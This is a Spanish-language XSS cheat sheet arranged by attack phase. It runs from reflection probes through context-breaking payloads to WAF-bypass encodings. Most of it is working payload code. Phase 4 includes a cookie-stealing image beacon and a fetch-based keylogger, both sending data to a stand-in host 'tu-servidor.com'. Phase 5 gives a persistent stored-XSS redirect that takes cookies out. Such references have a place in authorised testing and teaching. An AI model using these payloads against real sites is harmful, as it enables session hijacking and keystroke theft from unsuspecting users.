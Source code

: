 
---
# Cheat Sheet XSS organizada por fases del ataque

**Fase 1: Descubrimiento y detección de reflejo**  

Objetivo: Comprobar si la entrada del usuario se refleja sin sanitización.

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
````

**Tips:**

- Usa herramientas como Burp Suite para interceptar y modificar parámetros.
    
- Prueba parámetros en GET, POST, cookies, headers (User-Agent, Referer).
    
- Revisa si tu input aparece reflejado tal cual en el HTML, en atributos, o en el JavaScript.
    

---

**Fase 2: Identificación del contexto de inyección**

Objetivo: Entender dónde se inyecta el payload para adaptar la técnica.

```html
<!-- Dentro de HTML plano -->
hola <tu_inyección_aquí>

<!-- Dentro de atributos -->
<img src="tu_inyección">

<!-- Dentro de etiquetas `<script>` -->
<script>var user = 'tu_inyección';</script>
```

**Tips:**

- Usa caracteres especiales para romper el contexto: `" ' > <`
    
- Si tu input se encuentra entre comillas, prueba payloads como: `" onerror=alert(1) x="`
    
- Si estás dentro de JavaScript, prueba con: `' + alert(1) + '`
    

---

**Fase 3: Ejecución del payload**

Objetivo: Lanzar un `alert()`, acceso a `document.cookie`, o ejecución de código.

```html
<script>alert(1)</script>
<img src=x onerror=alert(document.cookie)>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```

---

**Fase 4: Escalada y explotación avanzada**

Objetivo: Robar sesiones, manipular DOM, redirigir, simular acciones.

```javascript
// Robo de cookies
new Image().src="https://tu-servidor.com/log.php?c="+document.cookie

// Simular click (CSRF + XSS)
document.querySelector('form').submit()

// Keylogger básico
document.onkeypress = function(e){fetch('https://tu-servidor.com/k?key='+e.key)}
```

---

**Fase 5: Persistencia (si es XSS almacenado)**

Objetivo: Asegurar que el código malicioso se quede en la aplicación.

```html
<script>document.location='https://tu-servidor.com/?c='+document.cookie</script>
```

**Tips:**

- Prueba comentarios, nombres de usuario, campos de perfil, o entradas visibles para otros usuarios.
    
- Observa si el contenido persiste tras recargar la página o cambiar de sesión.
    

---

**Fase 6: Bypass de filtros/WAFs**

Objetivo: Evadir protecciones anti-XSS.

```html
<svg/onload=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;>
<script>eval('al'+'ert(1)')</script>
<scr<script>ipt>alert(1)</scr</script>ipt>
```

---
